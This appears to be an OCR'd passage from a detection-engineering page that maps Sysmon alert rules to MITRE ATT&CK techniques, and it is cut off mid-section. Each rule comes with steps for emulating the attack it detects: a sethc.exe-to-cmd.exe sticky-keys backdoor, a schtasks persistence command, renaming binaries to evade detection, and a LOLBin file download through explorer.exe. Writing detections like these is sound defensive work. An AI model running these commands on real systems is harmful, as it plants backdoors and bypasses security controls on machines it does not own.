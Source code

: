 ```Exclude normal accounts here```

Emulate via UI

Change owner of C:\Windows\System32\sethc.exe file from TrustedInstaller to Builtin\Administrator Change permissions of Builtin\Administrator to have 'Full Control' permission Backup the sethc.exe to sethc.exe.bak Launch Command Prompt and copy cmd.exe to sethc.exe

copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe

Scheduled Task/Job
Scheduled Task
sysmon_detect_scheduled_task_schtasks
Alert detects creation of a scheduled task via schtasks

Pre-requisite: Sysmon Event ID 1 (Process Create)

Emulate via cmd

Execute the following command:
"C:\Windows\system32\schtasks.exe"  /Create /F /SC DAILY /ST 12:00 /TN TestTask2 /TR "c:\Windows\system32\cmd.exe /c 'whoami > C:\Users\Administrator\Desktop\whoami.txt'
TA0004 Privilege Escalation
Hijack Execution Flow
DLL Search Order Hijacking
sysmon_detect_localpotato_lpe_storsvc
Alert for detection of LocalPotato LPE via StorSvc service (CVE-2023-21746)

*Emulate via blackarrowsec/redteam-research

Refer to the steps in this article

TA0005 Defence Evasion
T1036 Masquerading
T1036.003 Rename System Utilities
sysmon_detect_execution_filename_mismatch
Alert to detect execution of Binaries where Original File Name does not match the image executed

Note: This alert may need to be baselined to exclude specific images or paths from which legitimate images with renamed files normally execute.

References:

https://redcanary.com/blog/black-hat-detecting-the-unknown-and-disclosing-a-new-attack-technique/
https://github.com/pe3zx/crowdstrike-falcon-queries#execution-of-renamed-executables
Emulate via Windows Explorer

Copy a binary e.g. C:\Windows\System32\control.exe to Downloads folder
Rename the binary to test.exe
Run test.exe
T1218 System Binary Proxy Execution
sysmon_detect_binary_proxy_execution_explorer
Alert on use of Lolbin for Security tools bypass via explorer.exe (for arbitrary file download)

Reference: https://answers.microsoft.com/en-us/windows/forum/all/create-desktop-shortcuts-to-websites-with-edge/38bfd50b-c6db-42f6-b423-41a68af30e6b?page=4

Pre-requisite: Sysmon Event Code 1 (Process Creation)

Emulate via cmd

explorer.exe microsoft-edge:https://server/file.exe.txt
Rundll32
sysmon_detect_binary_proxy_execution_rundll32
```